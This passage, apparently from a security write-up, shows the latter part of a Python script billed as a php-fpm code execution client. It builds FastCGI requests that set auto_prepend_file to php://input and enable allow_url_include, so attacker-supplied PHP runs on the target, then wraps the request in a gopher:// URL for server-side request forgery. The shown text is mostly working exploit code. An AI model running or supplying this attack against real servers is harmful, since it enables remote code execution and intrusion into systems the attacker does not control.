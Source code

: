             data = BytesIO(data)
            while True:
                response = self.__decodeFastCGIRecord(data)
                if not response:
                    break
                if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
                        or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                    if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
                        self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
                    if requestId == int(response['requestId']):
                        self.requests[requestId]['response'] += response['content']
                if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
                    self.requests[requestId]
            return self.requests[requestId]['response']

        def __repr__(self):
            return "fastcgi connect host:{} port:{}".format(self.host, self.port)


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
        parser.add_argument('host', help='Target host, such as 127.0.0.1')
        parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
        parser.add_argument('-c', '--code', help='What php code your want to execute', default='
    ')
        parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)

        args = parser.parse_args()

        client = FastCGIClient(args.host, args.port, 3, 0)
        params = dict()
        documentRoot = "/"
        uri = args.file
        content = args.code
        params = {
            'GATEWAY_INTERFACE': 'FastCGI/1.0',
            'REQUEST_METHOD': 'POST',
            'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
            'SCRIPT_NAME': uri,
            'QUERY_STRING': '',
            'REQUEST_URI': uri,
            'DOCUMENT_ROOT': documentRoot,
            'SERVER_SOFTWARE': 'php/fcgiclient',
            'REMOTE_ADDR': '127.0.0.1',
            'REMOTE_PORT': '9985',
            'SERVER_ADDR': '127.0.0.1',
            'SERVER_PORT': '80',
            'SERVER_NAME': "localhost",
            'SERVER_PROTOCOL': 'HTTP/1.1',
            'CONTENT_TYPE': 'application/text',
            'CONTENT_LENGTH': "%d" % len(content),
            'PHP_VALUE': 'auto_prepend_file = php://input',
            'PHP_ADMIN_VALUE': 'allow_url_include = On'
        }
        response = client.request(params, content)
        response = urllib.quote(response)
        print("gopher://127.0.0.1:" + str(args.port) + "/_" + response)
    ```
    ![](/styles/images/2019-5/gopherphp.png)